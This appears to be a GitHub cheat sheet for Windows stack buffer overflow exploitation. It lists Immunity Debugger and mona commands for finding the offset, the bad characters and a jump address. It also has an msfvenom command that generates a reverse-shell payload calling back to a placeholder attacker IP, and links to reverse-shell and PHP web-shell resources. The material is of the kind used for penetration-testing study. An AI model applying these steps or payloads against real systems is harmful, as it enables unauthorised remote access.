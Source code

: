 ## Windows

### Tools

- Immunity debugger
- msfvenom

#### Generate a cyclic pattern
```
Command : /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l {length}
```

#### Mona configuration
```
Sub_command : !mona config -set workingfolder c:\{path to mona}\%p
```

#### Find specific buff distance
```
Sub_command : !mona findmsp -distance <length>
```

#### Generate bytearray
```
Sub_command : !mona bytearray -b "\x00"
```

#### Finding badchars
```
Sub_Command : !mona compare -f C:\{path to mona}\{bin name}\bytearray.bin -a <esp or rsp address>
```

#### Finding jump point
```
Sub_command : !mona jmp -r {register ex: esp or rsp} -cpb "{badchars}"
```

#### Generate paylaod
```
Command: msfvenom -p windows/shell_reverse_tcp LHOST={attacker ip} LPORT={port} EXITFUNC=thread -b "{bachars}" -f c
```

# Resources

### Reverse Shells

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) - *Reverse shell repository*

[phpbash](https://github.com/Arrexel/phpbash) - *Php web shell*

[p0wny-shell](https://github.com/flozz/p0wny-shell) - *Php web shell*
